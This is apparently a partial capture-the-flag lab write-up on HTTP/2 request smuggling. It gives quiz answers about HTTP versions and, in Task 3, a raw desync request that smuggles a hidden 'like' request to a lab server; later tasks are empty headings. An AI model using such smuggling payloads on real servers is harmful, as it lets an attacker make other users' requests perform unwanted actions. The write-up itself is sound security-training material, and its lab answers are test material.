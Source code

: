 <h1>HTTP/2 Request Smuggling</h1>

<br>

<br>

<h2>Task 1. Introduction</h2>

<h3 align="left"> $$\textcolor{#f00c17}{\textnormal{Answer the question below}}$$ </h3>

> 1.1. <em>Deploy the VM before continuing.</em><br><a id='1.1'></a>
>> <strong><code>No answer needed</code></strong><br>
<p><br></p>

<h2>Task 2. HTTP/2 Explained</h2>

<h3 align="left"> $$\textcolor{#f00c17}{\textnormal{Answer the questions below}}$$ </h3>

> 2.1. <em>Which version of the HTTP protocol uses \r\n to separate headers in a request?</em><br><a id='2.1'></a>
>> <strong><code>HTTP/1.1</code></strong><br>
<p><br></p>

> 2.2. <em>Which version of the HTTP protocol uses a binary format and clearly defines boundaries for elements in requests/responses?</em><br><a id='2.2'></a>
>> <strong><code>HTTP/2</code></strong><br>
<p><br></p>

<h2>Task 3. HTTP/2 Desync</h2>


![image](https://github.com/user-attachments/assets/708836a0-2554-4570-bf41-d1e7f9ff8f29)

<br>

![image](https://github.com/user-attachments/assets/9bd0ba4f-33f0-4649-b00e-71e3fdb95fad)


<br>

![image](https://github.com/user-attachments/assets/31a819d4-b137-4573-8341-976004d3ffe6)

<br>

![image](https://github.com/user-attachments/assets/03bbbedf-a463-410a-9438-3f3d5af7aa00)

<br>

![image](https://github.com/user-attachments/assets/6929b184-405d-4837-849a-4394a94d0c2a)

<br>

![image](https://github.com/user-attachments/assets/cdb96a83-1e87-43b1-9d40-7b5ed747d419)

<br>

<pre><code>POST / HTTP/2
Host: 10.10.15.222:8000
Cookie: sessid=ba89f897ef7f68752abc
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://10.10.15.222:8000/post/12315198742342
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

GET /post/like/12315198742342 HTTP/1.1
X: f</code></pre>

<br>

![image](https://github.com/user-attachments/assets/c85eb21b-6963-4a80-93b9-86b5a612460f)







<h2>Task 4. HTTP/2 Request Tunneling</h2>

<h2>Task 5. HTTP/2 Request Tunneling: Leaking Internal Headers</h2>

<h2>Task 6. HTTP/2 Request Tunneling: Bypassing Frontend Restrictions</h2>

<h2>Task 7. HTTP/2 Request Tunneling: Web Cache Poisoning</h2>

<h2>Task 8. h2c Smuggling</h2>

<h2>Conclusion</h2>
